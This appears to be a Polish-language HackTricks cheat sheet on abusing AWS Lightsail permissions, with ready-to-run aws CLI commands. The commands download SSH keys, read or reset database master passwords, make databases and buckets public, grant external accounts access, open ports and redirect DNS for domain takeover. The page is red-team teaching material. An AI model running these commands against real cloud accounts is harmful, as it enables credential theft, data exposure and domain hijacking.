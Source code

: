 # AWS - Lightsail Privesc

{% hint style="success" %}
Ucz się i praktykuj Hacking w AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Ucz się i praktykuj Hacking w GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

## Lightsail

Aby uzyskać więcej informacji na temat Lightsail, sprawdź:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Warto zauważyć, że Lightsail **nie używa ról IAM należących do użytkownika**, ale do zarządzanego konta AWS, dlatego nie można wykorzystać tej usługi do eskalacji uprawnień. Jednakże, **wrażliwe dane** takie jak kod, klucze API i informacje o bazie danych mogą być znalezione w tej usłudze.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

To uprawnienie pozwoli Ci pobrać klucze SSH do dostępu do instancji:
```
aws lightsail download-default-key-pair
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji wewnątrz instancji.

### `lightsail:GetInstanceAccessDetails`

To uprawnienie umożliwi Ci wygenerowanie kluczy SSH do uzyskania dostępu do instancji:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji wewnątrz instancji.

### `lightsail:CreateBucketAccessKey`

To uprawnienie umożliwi uzyskanie klucza dostępu do kubełka:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji wewnątrz kubełka.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

To uprawnienie umożliwi uzyskanie poświadczeń dostępu do bazy danych:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji w bazie danych.

### `lightsail:UpdateRelationalDatabase`

To uprawnienie umożliwi zmianę hasła dostępu do bazy danych:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Jeśli baza danych nie jest publiczna, możesz ją również udostępnić publicznie z tymi uprawnieniami za pomocą

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji w bazie danych.

### `lightsail:OpenInstancePublicPorts`

To uprawnienie pozwala na otwieranie portów do Internetu.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potencjalne skutki:** Dostęp do wrażliwych portów.

### `lightsail:PutInstancePublicPorts`

To uprawnienie pozwala otwierać porty do Internetu. Zauważ, że wywołanie zamknie każdy port otwarty, który nie jest w nim określony.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potencjalne skutki:** Dostęp do wrażliwych portów.

### `lightsail:SetResourceAccessForBucket`

To uprawnienie pozwala na udzielenie instancjom dostępu do kubełka bez dodatkowych poświadczeń

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potencjalne skutki:** Potencjalny nowy dostęp do kubełków z poufnymi informacjami.

### `lightsail:UpdateBucket`

Z tym uprawnieniem atakujący mógłby nadać swojemu własnemu kontu AWS dostęp do odczytu kubełków lub nawet udostępnić kubełki publicznie dla wszystkich:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potencjalne skutki:** Potencjalny nowy dostęp do kubełków z poufnymi informacjami.

### `lightsail:UpdateContainerService`

Z tymi uprawnieniami atakujący mógłby udzielić dostępu do prywatnych ECR-ów z usługi kontenerów.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potencjalne skutki:** Uzyskanie poufnych informacji z prywatnego ECR

### `lightsail:CreateDomainEntry`

Atakujący posiadający to uprawnienie mógłby utworzyć subdomenę i skierować ją na swój własny adres IP (przejęcie subdomeny), lub stworzyć rekord SPF, który pozwoliłby mu na podszywanie się pod e-maile z domeny, albo nawet ustawić główną domenę na swój własny adres IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencjalne skutki:** Przejęcie domeny

### `lightsail:UpdateDomainEntry`

Atakujący posiadający to uprawnienie mógłby utworzyć subdomenę i skierować ją na swój własny adres IP (przejęcie subdomeny), stworzyć rekord SPF umożliwiający podszywanie się pod wysyłającego e-maile z domeny, lub nawet ustawić główną domenę na swój własny adres IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencjalne skutki:** Przejęcie domeny

{% hint style="success" %}
Dowiedz się i praktykuj Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i praktykuj Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępniaj sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
